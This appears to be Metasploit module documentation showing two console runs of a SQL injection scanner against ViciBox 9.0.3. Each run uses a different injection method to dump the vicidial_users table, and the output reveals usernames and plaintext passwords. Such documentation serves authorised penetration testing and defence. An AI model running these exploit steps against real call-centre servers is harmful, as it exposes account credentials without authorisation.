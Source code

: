 ### ViciBox 9.0.3 - List Users - agentcall_email method

```
msf6 use auxiliary/scanner/http/vicidial_multiple_sqli
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - agentcall_email method
action => List Users - agentcall_email method
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


### ViciBox 9.0.3 - List Users - user_stats method

```
msf6 use auxiliary/scanner/http/vicidial_multiple_sqli
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - user_stats method
action => List Users - user_stats method
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
